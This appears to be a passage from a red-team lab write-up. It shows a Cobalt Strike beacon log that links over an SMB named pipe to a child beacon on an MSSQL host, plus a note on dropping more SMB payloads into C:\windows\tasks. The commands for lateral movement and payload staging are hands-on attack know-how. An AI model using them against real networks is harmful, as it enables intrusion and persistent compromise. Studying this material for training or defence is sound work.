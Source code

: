 [[5. smb.exe execution on MSSQL db]]
```powershell
[02/18 00:54:15] beacon> link db.kato.org Microsoft-bugsinthere1337
[02/18 00:54:15] [*] Tasked to link to \\db.kato.org\pipe\Microsoft-bugsinthere1337
[02/18 00:54:15] [+] host called home, sent: 53 bytes
[02/18 00:54:15] [+] established link to child beacon: 10.10.140.30
```
![[Pasted image 20240217195706.png]]
![[Pasted image 20240217195731.png]]
once connected can just upload other `smb` payloads to `C:\windows\tasks` using the beacon upload